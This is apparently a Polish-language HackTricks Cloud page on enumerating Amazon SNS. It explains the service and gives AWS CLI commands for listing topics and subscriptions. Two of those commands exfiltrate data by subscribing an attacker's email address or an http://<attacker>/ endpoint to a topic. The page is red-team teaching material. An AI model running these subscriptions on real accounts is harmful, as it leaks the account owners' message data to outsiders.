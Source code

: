 # AWS - SNS Enum

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) jest opisywana jako **w pełni zarządzana usługa komunikacji**. Obsługuje zarówno typy komunikacji **aplikacja-do-aplikacji** (A2A), jak i **aplikacja-do-osoby** (A2P).

Kluczowe cechy dla komunikacji A2A obejmują **mechanizmy publikacji/subskrypcji (pub/sub)**. Te mechanizmy wprowadzają **tematy**, które są kluczowe dla umożliwienia wysokowydajnej, **opartej na push, komunikacji wiele-do-wielu**. Ta funkcja jest bardzo korzystna w scenariuszach, które obejmują systemy rozproszone, mikroserwisy i architektury bezserwerowe oparte na zdarzeniach. Wykorzystując te tematy, systemy publikujące mogą efektywnie dystrybuować wiadomości do **szerokiego zakresu systemów subskrybujących**, ułatwiając wzorzec komunikacji fanout.

### **Różnica z SQS**

**SQS** to **usługa oparta na kolejkach**, która umożliwia komunikację punkt-punkt, zapewniając, że wiadomości są przetwarzane przez **jednego konsumenta**. Oferuje **dostawę przynajmniej raz**, obsługuje standardowe i FIFO kolejki oraz pozwala na przechowywanie wiadomości w celu ponownych prób i opóźnionego przetwarzania.\
Z drugiej strony, **SNS** to **usługa oparta na publikacji/subskrypcji**, umożliwiająca **komunikację jeden-do-wielu** poprzez nadawanie wiadomości do **wielu subskrybentów** jednocześnie. Obsługuje **różne punkty subskrypcyjne, takie jak e-mail, SMS, funkcje Lambda i HTTP/HTTPS**, oraz zapewnia mechanizmy filtrowania dla ukierunkowanej dostawy wiadomości.\
Chociaż obie usługi umożliwiają odseparowanie komponentów w systemach rozproszonych, SQS koncentruje się na komunikacji w kolejkach, a SNS podkreśla wzorce komunikacji oparte na zdarzeniach i fan-out.

### **Enumeracja**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Zauważ, że jeśli **temat jest typu FIFO**, można używać tylko subskrybentów korzystających z protokołu **SQS** (HTTP lub HTTPS nie mogą być używane).

Ponadto, nawet jeśli `--topic-arn` zawiera region, upewnij się, że określasz poprawny region w **`--region`**, w przeciwnym razie otrzymasz błąd, który wskazuje, że nie masz dostępu, ale problemem jest region.
{% endhint %}

#### Nieautoryzowany dostęp

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Eskalacja uprawnień

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Po eksploatacji

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Utrzymywanie

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Odniesienia

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
